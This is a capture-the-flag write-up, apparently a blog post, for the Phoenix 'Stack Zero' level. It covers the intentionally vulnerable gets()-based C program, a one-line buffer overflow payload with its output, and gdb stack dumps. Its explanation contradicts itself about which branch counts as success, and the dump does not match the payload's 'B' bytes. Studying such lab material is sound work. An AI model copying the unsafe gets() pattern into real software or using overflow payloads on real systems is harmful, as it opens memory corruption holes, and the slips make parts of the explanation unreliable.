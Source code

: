 ```yaml
---
layout: post
title: "Stack 0x0"
category: CTF 
tags: [binary exploitation phoenix wargame ctf learning]
---
```

{% include JB/setup %}

# Stack 0

https://exploit.education/phoenix/stack-zero/

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
    "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
    struct {
        char buffer[64];
        volatile int changeme;
    } locals;

    printf("%s\n", BANNER);

    locals.changeme = 0;
    gets(locals.buffer);

    if (locals.changeme != 0) {
        puts("Well done, the 'changeme' variable has been changed!");
    } else {
        puts(
            "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
    }

    exit(0);
}
```

The goal of this challenge is to force the program to branch to the else path.
This can be easily achieved by overwriting the buffer member of the locals struct. By wrting past the bounds (vulnerable function is gets) of buffer, the 32-bit integer changeme can be overwritten.

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "B"*4' | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

# Debugging

Stack before the call to `gets`:

```
(gdb) x/32xw $esp
0xffffd554:     0x00000000      0x0000006f      0x00000010      0x080482b4
0xffffd564:     0x08048551      0x00000000      0x0000004e      0x00000000
0xffffd574:     0x00000000      0x00000000      0x00000000      0x00000011
0xffffd584:     0xf7ffd19c      0x00000000      0x08048294      0x00000000
0xffffd594:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5b4:     0xffffd5d0      0xffffd650      0xf7f8f654      0xffffd644
0xffffd5c4:     0x00000002      0xffffd650      0xf7f8f654      0x00000002
```

After the overflow:

```
(gdb) x/32xw $esp
0xffffd550:     0xffffd56c      0x00000000      0x0000006f      0x00000010
0xffffd560:     0x080482b4      0x08048551      0x00000000      0x41414141
0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x00006141      0xffffd650      0xf7f8f654
```

# Fix

This vulnerability can be remediated by properly checking the bounds of the input data.
